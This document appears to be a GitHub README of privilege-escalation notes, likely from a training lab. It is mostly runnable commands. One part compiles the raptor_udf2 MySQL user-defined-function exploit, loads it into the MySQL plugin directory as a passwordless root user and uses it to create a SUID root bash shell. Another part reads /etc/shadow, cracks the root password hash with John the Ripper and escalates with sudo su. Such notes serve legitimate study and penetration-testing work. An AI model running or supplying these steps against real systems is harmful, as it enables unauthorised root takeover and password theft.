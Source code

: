 

---

# 💻 <span style="color:#1E90FF">**SQL Exploit Guide**</span>
---

###  **Change into the MySQL Directory:**

```bash
cd /home/user/tools/mysql-udf
```

---

###  **Compile the `raptor_udf2.c` Exploit Code:**

```bash
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

---

###  **Connect to the MySQL Service as the Root User (No Password):**

```bash
mysql -u root
```

---

###  **Create a User Defined Function (UDF) "do_system" Using the Compiled Exploit:**

```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

---

###  **Copy `/bin/bash` to `/tmp/rootbash` and Set the SUID Permission:**

```sql
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

---

###  **Exit from the MySQL Shell:**

```bash
exit
```

---

###  **Run `/tmp/rootbash` with Root Privileges:**

```bash
/tmp/rootbash -p
```

---

###  **Clean Up and Exit from Root:**

```bash
rm /tmp/rootbash
exit
```

---

# 🛡️ <span style="color:#32CD32">**Weak File Permissions**</span>
---

## **Check the Permissions of the `shadow` File**

```bash
ls -l /etc/shadow
```

---

## **Show the Hash of the Root Password**

```bash
cat /etc/shadow
```

---

## **Crack the Hash with John the Ripper (Dictionary Attack)**

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

---

## **Privilege Escalation**

```bash
sudo su
```

---


